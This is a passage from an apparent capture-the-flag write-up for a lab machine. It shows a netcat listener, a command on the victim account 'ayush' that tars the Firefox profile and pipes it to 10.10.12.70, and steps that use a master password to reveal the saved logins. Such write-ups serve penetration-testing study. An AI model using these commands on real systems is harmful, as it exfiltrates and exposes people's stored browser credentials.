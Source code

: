 2. Export `bzo7sjt1.default`:
   - Local terminal:
     ```console
     nc -lvp 1234 > profile.tar
     ```
   - `ayush` terminal:
     ```console
     tar -cf /tmp/something ~/.mozilla/firefox/bzo7sjt1.default

     cat /tmp/something | nc 10.10.12.70 1234
     ```

3. Extract `profile.tar` and start a firefox isntance
   ```console
   mkdir bzo7sjt1.default
   cd bzo7sjt1.default
   tar -xvf ../profile.tar
   firefox --profile ./
   ```

4. Find __saved logins__:
   1. Go to `Options`
   2. Go to `Privacy & Security`
   3. Look for `Saved Logins...`
   4. Enter the __master password__ ("`jiujitsu`")
   5. Click `Show Passwords`
   6. Enter the __master password__ ("`jiujitsu`") again

   ![chaos root](./screenshots/10000_chaos_root.png)
